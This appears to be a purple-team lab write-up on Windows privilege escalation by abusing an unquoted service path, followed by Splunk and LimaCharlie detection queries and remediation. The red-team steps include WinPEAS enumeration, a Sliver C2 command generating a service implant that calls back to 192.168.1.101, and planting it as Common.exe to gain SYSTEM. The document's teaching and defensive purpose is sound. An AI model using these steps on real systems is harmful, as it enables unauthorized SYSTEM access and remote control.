

# Phase 2: Privilege Escalation — Unquoted Service Path Abuse

## Overview

**Objective**  
Escalate privileges from a Standard User (Medium Integrity) to `NT AUTHORITY\SYSTEM` (High Integrity).

**Current Privilege Level**

  

  <em>Figure 2.1: Standard user operating with medium integrity privileges</em>

**MITRE ATT&CK Mapping**
- **Tactic:** TA0004 – Privilege Escalation  
- **Technique:** T1574.009 – Path Interception (Unquoted Service Path)

**Strategy**
- Passive trigger (“plant and wait”)  
- Abuse normal Windows service behavior instead of forcing execution

---

## Scenario: Unquoted Service Path Exploitation

### Vulnerability Identified

The Windows service **VulnService** is configured with an **unquoted executable path** containing spaces:

    C:\Users\Public\Vulnerable\Common Files\Target.exe

Because the path is unquoted, Windows resolves executables in the following order:

    C:\Users.exe
    C:\Users\Public.exe
    C:\Users\Public\Vulnerable.exe
    C:\Users\Public\Vulnerable\Common.exe
    C:\Users\Public\Vulnerable\Common Files\Target.exe

If write access exists in any of these locations, execution can be hijacked.

---

## Analyst Insight — “Trap and Wait”

As a standard user, restarting services manually often results in **Access Denied**.  
Instead of being noisy, a logic flaw is abused:

- The service path is unquoted  
- Write permissions exist in a parent directory  
- Windows naturally restarts services (reboot, crash recovery, scheduled restart)

A legitimate system action becomes the execution trigger.

---

## Attack Simulation (Red Team)

### Step 1: Detection — Identifying the Misconfiguration

**Tool:** WinPEAS  
**Purpose:** Enumerate privilege escalation vectors

**Command**

    winpeas.exe quiet servicesinfo

**Observation**
- VulnService2 flagged in red
- Identified as an unquoted service path
- Write permissions available in the parent directory

**Vulnerable Binary Path**

    C:\Users\Public\Vulnerable\Common Files\Target.exe

  

  
  

  <em>Figure 2.2: WinPEAS output highlighting the unquoted service path</em>

  

  <em>Figure 2.3: Vulnerable Windows service configuration</em>

---

### Step 2: Weaponization — Service-Compatible Payload

**Tool:** Sliver C2  

A payload is generated in Windows service format to ensure stable execution under the Service Control Manager (SCM).

**Command**

    generate --http 192.168.1.101:80 \
      --os windows \
      --arch amd64 \
      --format service \
      --name CommonSvc \
      --save /home/kali/Comm

  

  <em>Figure 2.4: Sliver service payload generation</em>

---

### Step 3: Delivery — Planting the Payload

The payload is renamed to **Common.exe** to align with the unquoted path interception breakpoint.

**Target Directory**

    C:\Users\Public\Vulnerable\

**Upload Command**

    upload /home/kali/Common.exe "C:\Users\Public\Vulnerable\Common.exe"

  

  <em>Figure 2.5: Payload upload command execution</em>

  

  <em>Figure 2.6: Payload successfully placed in the vulnerable directory</em>

---

### Step 4: Trigger — Passive Execution

Instead of forcing a service restart:

- **Action:** None (wait state)  
- **Trigger Event:** System reboot or natural service restart  
- **System Behavior:**
  - Service Control Manager executes `Common.exe`
  - Process runs with SYSTEM privileges

  

  <em>Figure 2.7: Service execution during system startup</em>

Upon startup, the Windows Service Control Manager (SCM) automatically executes `Common.exe` with SYSTEM privileges.

  

  <em>Figure 2.8: Command-and-Control channel established</em>

---

### Step 5: Result — SYSTEM Access

A new Sliver session checks in automatically.

**Verification**

    whoami

**Result**

    NT AUTHORITY\SYSTEM

  

  <em>Figure 2.9: SYSTEM-level access confirmed</em>

---

## Detection & Hunting (Blue Team — Splunk)

**SIEM:** Splunk  
**Focus:** Detect both the setup phase and execution phase

---

### Alert 1: File Creation — Pre-Execution Detection

**Sysmon Event ID:** 11 (File Create)

**Query**

    index=windows EventCode=11
    (TargetFilename="*\\Program.exe" OR TargetFilename="*\\Common.exe")
    NOT User="NT AUTHORITY\\SYSTEM"

**Why this works**
- C:\Users\Public is expected to be writable by standard users.
- File names align with known unquoted path breakpoints

---

### Alert 2: Process Execution — Privilege Escalation

**Sysmon Event ID:** 1 (Process Create)

**Query**

    index=windows EventCode=1
    Image="*\\Common.exe"
    ParentImage="*\\services.exe"
    IntegrityLevel="System"

**Why this matters**
- `services.exe` should only launch legitimate service binaries
- Confirms successful path interception and privilege escalation

  

  

  <em>Figure 2.10: Splunk events confirming SYSTEM-level execution</em>

---

## SOC Decision & Remediation (Splunk)

**Status:** CONFIRMED COMPROMISE

**Root Cause**
- Unquoted service path in service configuration

**Remediation Steps**

1. **Kill**
   - Terminate `Common.exe`

2. **Patch**

       sc config "VulnService" binPath= "\"C:\Users\Public\Vulnerable\Common Files\Target.exe""

3. **Clean**
   - Remove malicious binary from disk

---

## Detection & Response (Blue Team — LimaCharlie)

**Method:** Sigma-based detection with real-time telemetry

---

### Timeline Validation

**Triggered Alert**
- Suspicious Service Binary Directory

**Observed Telemetry**
- Event: NEW_PROCESS  
- Binary: `C:\Users\Public\Vulnerable\Common.exe`  
- User Context: `NT AUTHORITY\SYSTEM`  
- Parent Process: `services.exe`  

**Assessment**  
Execution of an unsigned binary from a user-writable directory under SYSTEM context strongly indicates service binary hijacking via unquoted service path abuse.

  

  <em>Figure 2.11: LimaCharlie timeline showing services.exe spawning Common.exe</em>

---

## SOC Decision & Active Response (LimaCharlie)

**Status:** ACTIVE THREAT — ISOLATION IN PROGRESS

**Immediate Actions**
- Network Isolation: `segregate_network`
- Process Termination: `os_kill_process` on `Common.exe`

---

## Final Remediation & Hardening

- Fixed unquoted service path
- Removed malicious executable
- Restricted write permissions on service directories
- Prevented standard users from modifying service binaries

---

## Key Takeaway

This privilege escalation required:
- No exploits  
- No brute force  
- No forced service restarts  

Only misconfiguration awareness, patience, and normal Windows behavior.

> “Sometimes the quietest attacks are the most effective.”
